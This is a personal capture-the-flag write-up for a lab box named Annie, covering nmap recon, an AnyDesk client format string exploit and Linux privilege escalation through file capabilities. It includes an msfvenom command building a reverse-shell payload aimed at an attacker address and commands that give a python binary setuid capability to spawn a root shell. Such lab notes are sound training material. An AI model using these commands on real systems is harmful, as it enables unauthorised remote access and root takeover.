

# Annie Helped-Through

Name: Annie
Date:  19/01/2023
Difficulty:  Medium
Goals:  
- Keep OSCP mindset and method
- Power through this brain fuzz flu with fun and community
- Concatenate my OSCP notes and my QBM for a better workflow, improving cpabablities and retention
- \*Bins usage for the red team
- Patch the vuln
- Write my Naabu script replacement for masscan in AutomateRecon
Learnt:
- C and Exploit basic expliot Dev revision
- Example of combining pieces of a privilege escalation
- Check the shebang on the python exploit.
Beyond Root:
- Patch the exploit

I decided to take a break from pretty much everything as this brain fuzz from this flu is still going to keep affecting me. Needed to think about my challanges and objectives for the year so the time helped. So I am here once again with Helped-Through just because I have felt at peak cognitively for like 4-5 weeks. Christmas was a good distraction from that, but life goes on. I also want to finish off [[Temple-Helped-Through]], [[Biblioteca-Helped-Through]] and [[Agent-T-Writeup]] along with [[Aratus-Helped-Through]] to round out some beyond root activities I need to do. Also I need to push my execise routine to higher than it was pre 2023 and these stream have the stream raiders segements to get up, stretch and pound out another straight one punch man plus extras.

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.



Nmap finds AnyDesk Client. Presumptively I already `searchsploit`-ed and search engine dorked it, but the was not an idication of the exactness of the version from what I or the stream gather. [AnyDesk Client RCE](https://www.exploit-db.com/exploits/49613) leads to a detailed blog post. 

Al asks what [TCP Wrappers](https://en.wikipedia.org/wiki/TCP_Wrappers) is a host-based networking ACL system used to filter network access to TCP/IP Unix-like OSs thereby allowing the host or subnet information - IPs, names, ident query replies, to be used as tokens on which to filter for access control purposes. [Regrading how to bypass TCP Wrappers](https://security.stackexchange.com/questions/23407/how-to-bypass-tcpwrapped-with-nmap-scan) the [author of the SecWiki article](https://secwiki.org/w/FAQ_tcpwrapped) - *"When `nmap` ([[Nmap-Cheatsheet]]) labels something `tcpwrapped`, it means that the behavior of the port is consistent with one that is protected by tcpwrapper. Specifically, it means that a full TCP handshake was completed, but the remote host closed the connection without receiving any data. It is important to note that tcpwrapper protects _programs_, not ports. This means that a valid (not false-positive) `tcpwrapped` response indicates a real network service is available, but you are not on the list of hosts allowed to talk with it. When such a large number of ports are shown as `tcpwrapped`, it is unlikely that they represent real services, so the behavior probably means something else. What you are probably seeing is a network security device like a firewall or IPS. Many of these are configured to respond to TCP portscans, even for IP addresses which are not assigned to them. This behavior can slow down a port scan and cloud the results with false positives."
 

This was easy the only issue I would have had is figuring this out to be a python2 exploit when the code looks very python3. 

## Exploit

[AnyDesk Client RCE](https://www.exploit-db.com/exploits/49613) is format string vulnerability, which is using formatting of strings in functoin calls with a foprmat specifier  `"%s"`, which points to a  character array that is reference after the literal string `"string data here"`. These character arrays are terminated with a null byte to indicate that the string has ends. Basically you can use `printf` usign format strings that are point to parts of memory that can be used to dump memory it should not. Or with `scanf` write data to memory. `C` has a history of unsafe memory handling, there aer safer versions of functions that are still commonly referrenced in modern C tutorials and bootcamps. 

[Al read and explained the blog post](https://devel0pment.de/?p=1881), some takeways.
- Al points out this is ACTUALLY a UDP exploit from reading the script. - Read the script

The only change is required is the the shellcode. It failed and I orginally thought it was due to byte and string related pissues of the exploit and that it required modifying by seperating and converting the exploit code passed to the custom function into bytes prior to function call.
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.11.3.193 LPORT=4444 -b "\x00\x25\x26" -f python -v shellcode
```

Just scan the port indicated in the exploit... 
I write this because my solution was to gather data not enumerate the port first. This is has been an issue in the past. Adding this to a another goal of a CTF and my QBM. 


UDP scan:
- Only if a port is closed will RST packet be sent, if a firewall is in the way you will get alot of false positive

Remote Desktop Software will often use UDP for fast a possible data streaming.

Jumping around while tackling the issue rather than the linear linear 

It is also in python2...

## Foothold && PrivEsc


It is a combination of sticky bit on setcap

I remember this on many boxes seperately over the years and in combination
```bash
# Find setcap
find / -type f -perm -04000 -ls 2>/dev/null
# Check the capabilities on a linux system
getcap -r / 2>/dev/null
# copy a binary we control  
cp /usr/bin/python3 /tmp/python3
# give this binary the capabilites to setuid
setcap cap_setuid+ep python3
/usr/bin/python[ver] -c 'import os; os.setuid(0);os.system("/bin/bash")'
```

[Artical](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/) on how


## Beyond Root

I changed this beyond root to compile all of my previous musing over boxes thought and wrote for 30 minutes but problems with solving problems 